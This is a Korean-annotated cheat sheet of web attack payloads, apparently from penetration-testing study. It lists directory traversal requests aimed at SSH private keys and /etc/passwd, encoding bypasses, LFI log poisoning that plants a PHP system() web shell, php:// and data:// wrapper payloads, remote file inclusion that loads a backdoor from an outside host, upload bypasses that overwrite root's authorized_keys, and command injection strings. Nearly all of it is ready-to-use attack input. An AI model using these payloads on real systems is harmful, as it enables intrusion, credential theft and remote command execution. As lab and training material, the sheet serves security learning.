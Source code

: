 # Directory Traversal (Path Traversal)  
https://example.com/cms/login.php?language=en.html                           # language 파라미터로 특정 파일을 불러오는 정상 요청  
https://example.com/cms/login.php?language=../../../../home/kali/.ssh/id_rsa # 리눅스 사용자 SSH 개인키 접근  
https://example.com/cms/login.php?language=..\..\..\..\windows\win.ini       # Windows 시스템 설정 파일(win.ini) 접근  

# 인코딩이 필요할때  
1  ../../../../etc/passwd                                                       # 리눅스 사용자 계정 정보  
2  %2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd                                       # '.'을 %2e로 인코딩하여 필터 우회  
3  %252e%252e/%252e%252e/etc/passwd                                             # 이중 인코딩(Double Encoding)으로 필터 우회  

# Local File Inclusion (LFI) - Log Poisoning  
curl https://example.com/index.php?page=../../../../../../../../../var/log/apache2/access.log   # Apache access.log를 LFI로 불러오기
User-Agent: <p><?php system($_REQUEST['cmd']); ?></p>                                           # User-Agent에 PHP 코드 삽입(Log Poisoning)
../var/log/apache2/access.log&cmd=whoami                                                        # 삽입된 PHP 코드로 명령 실행

# PHP Wrappers
curl https://example.com/index.php?page=php://filter/convert.base64-encode/resource=admin.php   # php://filter로 파일을 Base64로 인코딩하여 소스코드 노출
curl https://example.com/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls  # data:// 래퍼로 Base64 인코딩된 PHP 코드 전달 후 ls 실행

# Remote File Inclusion (RFI)
curl "https://example.com/index.php?page=http://192.168.119.3/simple-backdoor.php&cmd=ls"       # 외부 서버의 악성 PHP 파일 로드 후 명령 실행

# File Upload Vulnerabilities
example.php                                                                                     # 정상 PHP 파일
example.pHP                                                                                     # 대소문자 변형으로 확장자 필터 우회
example.php.txt                                                                                 # 이중 확장자로 필터 우회
upload '../../../../../../../test.txt'                                                          # 업로드 경로를 벗어나 상위 디렉토리에 파일 저장
upload '../../../../../root/.ssh/authorized_keys'                                               # SSH 공개키 덮어써서 백도어 접속 가능

# Command Injection
;ifconfig                                                                                        # 세미콜론(;)으로 기존 명령 종료 후 ifconfig 실행
%3Bifconfig                                                                                      # 세미콜론(;)을 URL 인코딩한 버전
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell                                                 # PowerShell 환경 여부 및 실행 위치 확인

# POST 데이터에 명령어 삽입하여 필터 우회 후 실행
curl -X POST --data 'Archive=git%3B(dir%202%3E%261%20*%60%7Cecho%20CMD)%3B%26%3C%23%20rem%20%23%3Eecho%20PowerShell' http://192.168.50.189:8000/archive                                                              
